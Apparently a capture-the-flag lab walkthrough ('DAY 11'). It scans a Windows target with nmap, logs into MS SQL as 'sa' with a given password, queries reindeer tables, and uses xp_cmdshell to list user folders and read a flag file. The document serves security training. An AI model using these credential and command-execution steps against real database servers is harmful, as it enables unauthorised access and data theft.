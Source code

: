 # DAY 11

## Connection
```bash
export IP=10.10.116.71
```

## Enumerate

```bash
nmap -Pn -sC -sV -oN nmap/initial $IP
```
`-Pn` - to skip ping test because we attacking Windows machine.

## MS SQL

port: `1433`

## Connect to DB
`sqsh` usage:

```bash
sqsh -S server -U username -P password
```

### connect with known credentials
```bash
sqsh -S $IP -U sa -P t7uLKzddQzVjVFJp
```

## Getting answers

We know DB name `reindeer` and tables are `names`, `presents`, `schedule`


### reindeer 9 first name

```SQL
1> SELECT * FROM reindeer.dbo.names;
2> go
```

### Check the table schedule
```SQL
1> select * from reindeer.dbo.schedule;
2> go
```

### Check the table presents
```SQL
1> select * from reindeer.dbo.presents;
2> go
```

## Retrieve access
`xp_cmdshell` is enabled! We can use it.

```sh
# syntax
xp_cmdshell 'COMMAND';
```

```sh
xp_cmdshell 'whoami';
```

## Flag

# Search for flag
```bash
1> xp_cmdshell "dir c:\Users";
2> go

[...]

1> xp_cmdshell "dir c:\Users\grinch\Documents";
2> go
```

#### FLAG
```bash
1> xp_cmdshell "type c:\Users\grinch\Documents\flag.txt";
2> go
```
